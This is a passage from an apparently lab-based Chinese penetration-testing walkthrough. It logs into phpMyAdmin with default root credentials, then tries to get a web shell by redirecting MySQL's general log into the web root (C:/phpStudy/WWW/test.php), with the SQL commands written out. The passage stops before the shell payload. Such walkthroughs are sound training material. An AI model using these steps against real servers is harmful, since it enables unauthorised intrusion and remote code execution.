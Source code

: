     没找到什么
    
4. 前面知道数据库账号密码都是`root`，所以直接登录`phpmyadmin`
    
    ![image.png](image%203.png)
    
    登陆成功
    
5. 尝试利用`phpmyadmin`后台`getshell`
    - 尝试使用`outfile`等方法，因为我们知道了网站的绝对路径
        
        首先查看`secure_file_priv`权限
        
        ```python
        SHOW GLOBAL VARIABLES LIKE '%secure%'
        //
        secure_file_priv 	NULL
        ```
        
        `NULL`就无法利用了
        
    - 使用日志文件写入`shell`
        1. 首先查看全局日志文件是否开启
            
            ```python
            SHOW VARIABLES LIKE '%general%'
            //
            general_log 	OFF
            general_log_file 	C:\phpStudy\MySQL\data\stu1.log
            ```
            
        2. 我们两个参数都要进行设置，将`general_log` 设置为`ON` ，将`general_log_file` 设置在网站目录里面的文件
            
            ```python
            set global general_log = "ON";
            set global general_log_file='C:/phpStudy/WWW/test.php';
            ```
            